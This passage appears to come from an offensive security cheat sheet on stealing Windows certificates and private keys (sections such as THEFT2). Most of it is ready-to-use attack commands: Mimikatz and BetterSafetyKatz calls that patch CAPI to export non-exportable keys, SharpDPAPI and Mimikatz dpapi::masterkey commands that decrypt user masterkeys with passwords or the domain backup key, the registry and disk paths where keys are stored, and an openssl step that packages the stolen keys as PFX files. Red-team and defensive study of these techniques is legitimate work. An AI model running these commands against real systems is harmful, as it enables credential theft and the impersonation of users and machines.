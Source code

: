 ```
$mypwd = ConvertTo-SecureString -String "<PASSWORD>" -Force -AsPlainText
Export-PfxCertificate -Cert Cert:\LocalMachine\My\<SERIAL ID> -FilePath cert.pfx -Password $mypwd
```

- If CAPI or CNG APIs are configured to block the private key export and not allow extraction of non-exportable certificates, Use Mimikatz to export private keys
```
.\Mimikatz.exe "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"

.\BetterSafetyKatz.exe -args "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
```

### THEFT2 Get User Certificate DPAPI
- User certificates stored in:
	- Registry: `HKEY_CURRENT_USER\SOFTWARE\Microsoft\SystemCertificate`
	- Disk: `%APPDATA%\Microsoft\SystemCertificates\My\Certificate`
- User private keys:
	- CAPI keys `%APPDATA%\Microsoft\Crypto\RSA\User SID`
	- CNG keys `%APPDATA%\Microsoft\Crypto\Keys\`

#### SharpDPAPI find certificates
```
.\SharpDPAPI.exe certificates
```

#### SharpDPAPI Dump certificates using password
- And sessions as user
```
.\SharpDPAPI.exe certificates /password:<PASSWORD>
```

#### Mimikatz Dump in users context
```
dpapi::masterkey /in:"<PATH TO KEY>" /rpc
```

#### Mimikatz Dump using the password
```
dpapi::masterkey /in:"<PATH TO KEY>" /sid:<USER SID> /password:<PASSWORD>
```

#### SharpDPAPI decrypt masterkeys using domain backup key
- https://github.com/GhostPack/SharpDPAPI#certificates
```
.\SharpDPAPI.exe certificates /pvk:<KEY>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
